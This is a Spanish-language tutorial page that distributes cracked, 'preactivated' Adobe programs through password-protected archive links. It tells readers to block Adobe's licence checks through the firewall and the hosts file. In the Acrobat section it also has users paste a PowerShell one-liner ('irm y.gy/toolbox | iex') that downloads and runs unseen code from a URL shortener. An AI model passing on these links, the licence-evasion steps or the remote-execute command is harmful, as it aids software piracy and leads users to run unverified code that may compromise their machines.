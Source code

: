 ![](https://i.postimg.cc/hj85qPgG/Adobe-programas.png)
# Programas Adobe - Individuales
Descarga casi todos los programas de adobe de manera individual y completos.

---

::: details **Que programas incluye?**

**Los programas mas usados son**

1. **Adobe Photoshop:**
Es uno de los programas más empleados para la edición de imágenes, pues cuenta con un amplio repertorio de herramientas que permiten una edición profesional.
En Adobe Photoshop se pueden realizar distintas modificaciones de color, texturas y eliminar elementos, por eso es uno de los más solicitados.Además, puede ser una alternativa para crear ilustraciones en 2D con texturas.


2. **Adobe Illustrator:**
Es uno de los programas que trabaja con vectores más usados a nivel mundial.
Con Illustrator se pueden crear distintas ilustraciones para distintos fines, como la animación o la impresión.Dentro del mundo del diseño gráfico, el modelado 2D y algunas ramas artísticas digitales es uno de los programas más utilizados.


3. **Adobe Premiere:**
Es uno de los editores de video más completos y profesionales que existen, pues cuenta con incontables herramientas que permiten crear videos de gran calidad.
Adobe Premiere es uno de los programas más usados a nivel cinematográfico, debido a sus grandes cualidades que permiten resultados profesionales y de calidad.


4. **Adobe After Effects:**
Es el mejor programa para la implementación de efectos especiales.
After Effects permite modificar videos o fragmentos con distintos elementos adicionales, pero con una alta calidad y de forma profesional.


5. **Adobe InDesign:**
Es uno de los programas más usados para el diseño de material impreso, pues cuenta con distintas cualidades que permiten maquetar contenido editorial de manera profesional y con gran nitidez.

 
6. **Adobe Acrobat Reader:**
Es uno de los editores de PDF más equipados, pues cuenta con distintas funciones que permiten modificar archivos de manera profesional. Asimismo, es uno de los mejores programas para leer documentos, pues permite destacar partes con subrayado y tiene modificaciones de formato e iluminación.


8. **Adobe Audition:**
Es el programa líder para edición de audio. En su mayoría se utiliza para producción radiofónica y creación de sonido multimedia, donde se pueden entrelazar sonidos, modificarlos y recrear escenas auditivas con la mezcla de diferentes sonidos.

 
9. **Adobe Animate:**
Es un programa de animación de vectores, el cual permite dar movimiento a distintos gráficos vectoriales por medio de un lenguaje de programación. Este programa es ideal para darle vida o movimiento a las ilustraciones 2D que se pueden crear en Illustrator o Photoshop. 

:::

---
::: warning **Aviso**

Estos programas acontinuación vienen parchados, preactivados y listos para usar.
Si no confias en este tipo de repacks, puedes usar el metodo que baja los programas desde Adobe CC y luego los parchas tu mismo
- [Clickea aqui.](/Tutoriales/adobeCC.md)      
Si confias, continua...
:::

## Descarga los programas

Estos programas acontinuación vienen parchados, preactivados y listos para usar. Es recomendado bloquear los .exe de cada programa una vez los instales usando el firewall de windows y bloquear las IP de adobe.

::: info Pequeño tutorial para despues de instalar
1. Importante si deseas que tu programa se mantenga funcionando sin que te salga que tu licencia es pirata, bloqueamos el .exe de cada programa instalado por medio de firewall. Si no sabes como usa este [tutorial.](https://www.geeknetic.es/Guia/1962/Como-bloquear-el-acceso-a-internet-de-un-programa-en-el-Firewall-de-Windows-10.html)

> *Si tienen problema encontrando los .exe pueden ir a los accesos directos, darles click derecho y propiedades, y en la ventana ahora abierta solo deben de darle a **“abrir ubicación”** y ya tendrán la ubicación del .exe.*


2. Ahora bloquea las siguientes ip en el host de windows. Si no sabes usa este [tutorial](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/#:~:text=los%20sistemas%20débiles.-,Así%20editas%20el%20archivo%20hosts,XP%2C%207%2C%208%20y%2010&text=Selecciona%20la%20opción%20“Ejecutar%20como,podrás%20modificar%20el%20archivo%20hosts.)

```
0.0.0.0 ic.adobe.io

0.0.0.0 r3zj0yju1q.adobe.io

0.0.0.0 cd536oo20y.adobe.io

0.0.0.0 3ca52znvmj.adobe.io

0.0.0.0 5zgzzv92gn.adobe.io

0.0.0.0 r5hacgq5w6.adobe.io

```

3. Disfruta tus programas.

:::

::: details 🟦 Photoshop     
Para las versiones la contraseña de todos es: `www.artistapirata.com`       
      
- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fdfbjnli6gkfgo2g%2FWIN_APS_V24.6.0.573.rar%2Ffile%3ALkujnKzNBELkkXfmCZxkLXtxYmA&cuid=4208103)        
- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fyp0f1r4j0d6r21b%2FWIN_APS_V23.5.0.669_AP_ZNT.rar%2Ffile%3Asa9zMJb198iceDCybhEHp-TnIXw&cuid=4208103)            
- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fkew510adp462kyy%2FWIN_APS_V22.5.8.998_AP_ZNT.rar%2Ffile%3AGU54grbZPWIMzy-XsSUD0g0pWho&cuid=4208103)              
- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F732cz8arne5nlda%2FPSCC2K21.21.2.4.WIN.AP.ZNT.rar%3AKFIXEo7XoBONQly5Bs_BOWP-CAE&cuid=4208103)             
- [CC 2019](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fos10tbcyzp1khd3%2FWIN_APS_2K19_V20_AP_ZNT.rar%2Ffile%3ACIztKcBJmhs6bA_bgUfqev_zNs0&cuid=4208103)               
- [CC 2018](http://disq.us/url?url=http%3A%2F%2Fbit.ly%2F2DsSPcR%3A__bJC5iOIXVUl3VXXU9WwDrCUUI&cuid=4208103)
:::

::: details 🟧 Illustrator
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F5rl1r0jq3yxqa8n%2FWIN_AAI_V27.1.0.189_AP_ZNT.rar%2Ffile%3ACeK6gVRz3AAB-9xzySKqvv1IYrs&cuid=4208103)        

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fr4pb4iocxtmkapm%2FWIN_AAI_V26.5.0.223_AP_ZNT.rar%2Ffile%3AtybK_260rmaooXQoz93gntZBRY8&cuid=4208103)         

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fmma6fhd8bcbmbkw%2FWIN_AAI_V25.4.1.498_AP_ZNT.rar%2Ffile%3A4Cxz7nNNTniZonVn6oz1Edklp9A&cuid=4208103)     

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fg7sgg5fmjamqjrl%2FAI24.3.0.WIN.AP.ZNT.rar%2Ffile%3AkmpvK5tWrbBH7fSVniMMpT5ojSU&cuid=4208103)      
- [CC 2019](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F2dl03gyj62tknn8%2FWIN_AI_2K19_V23.1_AP_ZNT.rar%2Ffile%3A38QUK9JDZ7dXDpZ-zsqGTYYhnlE&cuid=4208103)       
:::
::: details 🟪 Premiere Pro
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fvxho87az9vftx32%2FWIN_APR_V23.5.0.56_AP_ZNT.rar%2Ffile%3Aptw6JuFzPinQZqxuyBcDLTNuP3c&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fqs365zx4kjnpfhf%2FWIN_APR_V22.6.2.2_AP_ZNT.rar%2Ffile%3AE7PwqjtfITgWaB5kV8vHbiqL-f0&cuid=4208103)      

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F4y56b8a4q331s91%2FWIN_APR_V15.4.1.6_AP_ZNT.rar%2Ffile%3ARwGHXBK7xF466gkE4xJsr45_0dg&cuid=4208103)      

- [CC 2020](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fhcjo00k3pqyx2xv%2FWIN_APP_V14.9.0.52_AP_ZNT.rar%2Ffile%3A7Ka5YX9QP6TOfgeywkQR7Ht9S5M&cuid=4208103)
:::
::: details ⬛ After Effects
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fohfv2ixhcjsdmsc%2FWIN_AAE_V23.5.0.52_AP_ZNT.rar%2Ffile%3AfUbiPHY2UqCRNTbUai3I8kHIgQ4&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fd9qd6h6ghnbn5u2%2FWIN_AAE_V22.6.0.64_AP_ZNT.rar%2Ffile%3ASknbJyGOL1pMmKQCKbFVquMzQuE&cuid=4208103)       

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Ftj269xrrx4tzso5%2FWIN_AAE_V18.4.1.4_AP_ZNT.rar%2Ffile%3ATmsc-2wKRTtj53s3d-o7Yz6RGm8&cuid=4208103)       

- [CC 2020](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fj3yd5l42is8ukcb%2FWIN_AAE_V17.7.0.45_AP_ZNT.rar%2Ffile%3AUSrJHPkPPM-woxclwtXS-8azI2I&cuid=4208103)       

- [CC 2019](https://disq.us/url?url=https%3A%2F%2Fdrive.google.com%2Ffile%2Fd%2F1NaWnqz9AEVsEyXQDkMc8hV6w1DECwkT6%2Fview%3ASCaCYssF9mfMiF3LV5v4PcWqUCA&cuid=4208103)
:::
::: details 🟥 InDesign
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fafnyqvp3sop09b0%2FWIN_AID_V18.5.0.57_AP_ZNT.rar%2Ffile%3AhUpdmYFPPWTjVIKN5xktG_Ys0ME&cuid=4208103)        

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F222hhlx2osn2xf9%2FWIN_AID_V17.4.0.51_AP_ZNT.rar%2Ffile%3AZ_c41JUEULpUpLCXTMFRi246wPQ&cuid=4208103)       

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fxqefkei2bqwm5j4%2FWIN_AID_V16.4.0.55_AP_ZNT.rar%2Ffile%3AZkmXOrtvvJgxoLXAWOOUFluuqNI&cuid=4208103)         

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fxi8ye7vb5oqafuv%2FID2K20.15.1.2.WIN.AP.ZNT.rar%2Ffile%3A2Ntdg9wjCyHi-5pVLzzYG5Vj5aY&cuid=4208103)
:::
::: details 🟥 Acrobat DC PDF
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

1. [Acrobat CC 2023](https://www.mediafire.com/file/tfogsmbw95lf661/WIN_AADC_V2023.003.20244_AP_ZNT.rar/file)

2. Descarga e instala. No ejecutes.

3. Pega en powershell y da enter en el siguiente script.     

**Copiame:**

```
irm y.gy/toolbox | iex

```
**Imagen de referencia del script**
![](https://b.thumbs.redditmedia.com/PSAD0TGJyV3t4pihVqMNrtvz6ZAhSvNX75NySZe-AIQ.png)

4. Presiona la opcion 4 y luego la opcion 2.

5. Ve a los ajustes de Acrobat y desactiva las actualizaciones.   
Editar > Preferencias > Actualizar

NOTA: Si no te funciona o tienes errores, recomiendo usar la opcion 4 y luego la 1, pero antes usa la herramienta de [limpieza de adobe](https://helpx.adobe.com/es/creative-cloud/kb/cc-cleaner-tool-installation-problems.html)

:::
::: details 🟪 Audition
Para las versiones la contraseña de todos es: `www.artistapirata.com`        

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fz3kb0pbnpynkfjy%2FWIN_AAU_V23.5.0.48_AP_ZNT.rar%2Ffile%3AvSJqu-lQsv6IWA0MT8lHFJ0NjUk&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fy8i95ompzrvl8w5%2FWIN_AAU_V22.6.0.66_AP_ZNT.rar%2Ffile%3Ae8aFkXA98O5wqcEm0q-5mm_gxx0&cuid=4208103)      

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fksfjaasazdff0ik%2FWIN_AAU_V14.4.0.38_AP_ZNT.rar%2Ffile%3AyA-WuJ5G_DXOKTfxdUeSP-9VR4A&cuid=4208103)       

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F68jkuwwkilj77a9%2FWIN_AAU_2K21_V13_AP_ZNT.rar%2Ffile%3ADpwvlA5vRIui2NG4mXjNeOyMCAQ&cuid=4208103)       
- [CC 2019](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Foxy5tc86uw6cksh%2FAUD.CC.2K19.12.1.3.10.WIN.AP.ZENTINELS.rar%2Ffile%3AkX8H7R7gHTLITVce_Ft6_pDXa9Y&cuid=4208103)
:::
::: details 🟦 Animate
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fl8b5rykunq7daub%2FWIN_AAN_V23.0.2.103_AP_ZNT.rar%2Ffile%3A89PqTt1cpo7nnUyoS_HNLUnIm74&cuid=4208103)
:::
::: details 👀 Otro? 

Para encontrar otros programas de Adobe puedes entrar a esta pagina: - [PAGINA PARA BAJAR OTROS PROGRAMAS](https://www.artistapirata.com/?s=adobe)

:::

---

> **¿Tienes una petición o duda durante el tutorial? ¿Se cayo un link...?**       
> *Notificalo en* - [🚀 Discord](https://discord.gg/hVKeY3uEru) 

---